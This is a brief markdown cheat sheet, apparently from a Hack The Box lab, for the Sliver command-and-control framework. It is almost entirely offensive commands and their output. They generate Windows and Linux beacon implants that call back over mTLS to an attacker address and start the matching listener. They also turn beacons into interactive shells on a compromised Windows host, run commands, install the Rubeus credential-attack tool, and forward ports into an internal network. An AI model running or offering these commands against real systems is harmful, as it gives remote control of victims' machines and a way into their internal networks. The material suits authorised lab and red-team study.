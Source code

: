 # Sliver C2  
## Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
For linux: `generate beacon --os linux --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc2`  
    
## Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

## Navigate  
### Beacons  
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)    
      
OR     
sliver > `use beacons`   
Select the beacon using arrows to move    
  
### Sessions (interactive)    
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`    
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
Now we got an interactive session shell.    

## Execute commands in a session   
sliver (PERFECT_WALL) > `execute -o <command>`  

## Load tools  
sliver (PERFECT_WALL) > `armory install rubeus`  

## Port forwarding  
sliver (FORWARD_SPIRITUAL) > `portfwd add -r 10.10.20.10:8161`  
[*] Port forwarding 127.0.0.1:8080 -> 10.10.20.10:8161  

Now the ActiveMQ web interface is accessible through http://127.0.0.1:8080/    

  

  
  





